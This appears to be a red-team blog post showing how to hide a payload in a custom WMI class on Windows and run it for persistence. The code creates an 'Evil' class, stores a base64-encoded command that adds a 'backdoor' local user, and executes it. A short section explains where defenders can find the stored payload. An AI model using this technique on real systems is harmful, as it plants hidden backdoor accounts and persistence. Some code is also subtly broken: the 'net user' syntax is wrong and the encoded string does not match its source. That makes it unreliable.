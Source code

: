 ```yaml
---
layout: post
title: "wmi data storage"
date: 2024-06-18
categories: t1084-abusing-windows-managent-instrumentation
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1084-abusing-windows-managent-instrumentation/
---
```


---
description: >-
  Exploring WMI as a data storage for persistence by leveraging WMI classes and
  their properties.
---

# WMI as a Data Storage

## Execution

Creating a new WMI class with a property `EvilProperty` that will later store the payload to be executed:

```csharp
$evilClass = New-Object management.managementclass('root\cimv2',$null,$null)
$evilClass.Name = "Evil"
$evilClass.Properties.Add('EvilProperty','Tis notin good sir')
$evilClass.Put()

Path          : \\.\root\cimv2:Evil
RelativePath  : Evil
Server        : .
NamespacePath : root\cimv2
ClassName     : Evil
IsClass       : True
IsInstance    : False
IsSingleton   : False
```

We can see the `Evil` class properties:

```csharp
([wmiclass] 'Evil').Properties

Name       : EvilProperty
Value      : Tis notin good sir
Type       : String
IsLocal    : True
IsArray    : False
Origin     : Evil
Qualifiers : {CIMTYPE}
```

Checking WMI Explorer shows the new `Evil` class has been created under the `root\cimv2` namepace - note the `EvilProperty` can also be observed:

![](../../../.gitbook/assets/wmi-data-storage-newclass.png)

### Storing Payload

For storing the payload inside the `EvilProperty`, let's create a base64 encoded powershell command that adds a backdoor user with credentials `backdoor:backdoor`:

```csharp
$command = "cmd '/c net user add backdoor backdoor /add'"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

# $encodedCommand = YwBtAGQAIAAvAGMAIAAnAG4AZQB0ACAAdQBzAGUAcgAgAGIAYQBjAGsAZABvAG8AcgAgAGIAYQBjAGsAZABvAG8AcgAgAC8AYQBkAGQAJwA=
```

Updating `EvilProperty` attribute to store `$encodedCommand`:

```csharp
$evilClass.Properties.Add('EvilProperty', $encodedCommand)
```

Below is the same as above, just in a screenshot:

![](../../../.gitbook/assets/wim-setting-payload.png)

### Real Execution

```csharp
powershell.exe -enc $evilClass.Properties['EvilProperty'].Value
```

Executing the payload stored in the property of a WMI class's property - note that the backdoor user has been successfully added:

![](../../../.gitbook/assets/wmi-payload-executed.png)

If we commit the `$evilClass` with its `.Put()` method, our payload will get stored permanently in the WMI Class. Note how a new "Evil" class' properties member shows the payload we have commited:

![](../../../.gitbook/assets/wmi-payload-commited.png)

## Observations

Using the WMI Explorer, we can inspect the class' definition which is stored in`%SystemRoot%\System32\wbem\Repository\OBJECTS.DATA` 

The file contains all the classes and other relevant information about those classes. In our case, we can see the `EvilProperty` with our malicious payload inside:

![](../../../.gitbook/assets/wmi-evil-mof.png)

When inspecting the OBJECTS.DATA with a hex editor, it is possible \(although not very practical nor user friendly\) to find the same data - note that the screenshot is referring to the state of the Evil class at the very beginning of its creation as this is when I took the screenshot:

![](../../../.gitbook/assets/wmi-objects-data.png)
@spotheplanet
